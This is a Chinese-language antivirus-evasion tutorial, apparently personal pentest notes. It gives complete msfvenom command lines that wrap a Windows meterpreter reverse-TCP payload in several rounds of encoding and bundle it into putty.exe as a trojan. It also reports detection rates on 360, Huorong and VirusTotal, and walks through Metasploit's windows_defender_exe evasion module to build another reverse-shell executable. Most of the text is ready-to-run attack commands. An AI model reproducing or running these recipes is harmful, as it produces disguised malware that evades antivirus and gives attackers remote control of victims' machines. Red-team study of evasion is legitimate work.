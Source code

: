 msfvenom的encoder编码器可以对payload进行一定程度免杀，同时还可以使用msfvenom多重编码功能，通过管道，让msfvenom用不同编码器反复编码进行混淆。

如下命令，使用管道让`msfvenom`对攻击载荷多重编码，先用`shikata_ga_nai`编码20次，接着来10次的`alpha_upper`编码，再来10次的`countdown`编码，最后才生成以`putty.exe`为模板的可执行文件。

```
msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 LHOST=192.168.174.128 LPORT=6666 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x putty.exe -f exe -o /mnt/hgfs/Share/payload5.exe
```

如果报错`Error: You must select an arch for a custom payload`，则添加参数：

```
-a x86 --platform windows
```

![image-20220526194938055](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261949206.png)

还有更多重编码姿势：

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.74.133 LPORT=5110 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > payload6.exe
```

经过测试，发现使用的编码类型越多，免杀率可能会降低，猜测是因为各种编码引入了更多的特征码。同时生成的payload也很可能无法正常执行，这个也和被捆绑程序有一定关联。

360可以查杀，火绒不能查杀。

在virustotal.com上查杀率为28/67（原po为45/70），Bypass了McAfee。

360：

![image-20220526195103114](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261951182.png)

VT：

![image-20220526195652390](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261956521.png)



## Metasploit Evasion免杀

2019年1月，metasploit升级到了5.0，引入了一个新的模块叫Evasion模块，官方宣称这个模块可以创建反杀毒软件的木马。evasion有以下几个模块,可以使用`show evasion`进行查看。

msf6 evasion模块：

![image-20220527084747663](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205270847820.png)

### 生成exe(VT查杀率43/69)

使用`use windows/windows_defender_exe`进行生成payload

```
msf6 > use windows/windows_defender_exe
msf6 evasion(windows/windows_defender_exe) > set filename payload.exe
msf6 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/windows_defender_exe) > set LHOST 192.168.174.128
msf6 evasion(windows/windows_defender_exe) > set LPORT 6666
msf6 evasion(windows/windows_defender_exe) > run
```
